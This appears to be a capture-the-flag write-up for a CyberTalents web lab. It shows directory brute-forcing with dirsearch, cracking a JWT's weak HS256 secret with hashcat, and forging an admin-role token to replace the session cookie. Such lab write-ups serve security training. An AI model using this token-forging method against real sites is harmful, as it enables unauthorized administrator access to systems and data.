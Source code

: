 # Solve admin-gate-first
#### https://cybertalents.com/challenges/web/admin-gate-first

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m51xvkoecl304j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*


### Login with test/test
![alt text](images/image-1.png)

in the cookies we found a JWT token
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcInRlc3RcIixcInJvbGVcIjpcInVzZXJcIn0ifQ.XSPy0jZd8CEtHl2e3C1SjPaewco1tjO3iajbkJy2OFQ` 

### Decode with JWT.io 

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "data": "{\"username\":\"test\",\"role\":\"user\"}"
}
```
### Crack the JWT HS256 Signature
```bash
hashcat -m 16500 -a 0 jwt.txt <wordlist>
```

we found the Signature `123456`

### Edit the JWT Token

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "data": "{\"username\":\"test\",\"role\":\"admin\"}"
}
```
The new Token:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcInRlc3RcIixcInJvbGVcIjpcImFkbWluXCJ9In0.jHijo7pYELY4DJG20h2xCRiKRqW3HCdB1AnyOGsTNUw`

edit the cookie with the new Token
![alt text](images/image-2.png)

### Resources 
[jwt.io](https://jwt.io/)
[jwt cracker](https://github.com/brendan-rius/c-jwt-cracker)
>Find More on ==> github.com/MedhatHassan 
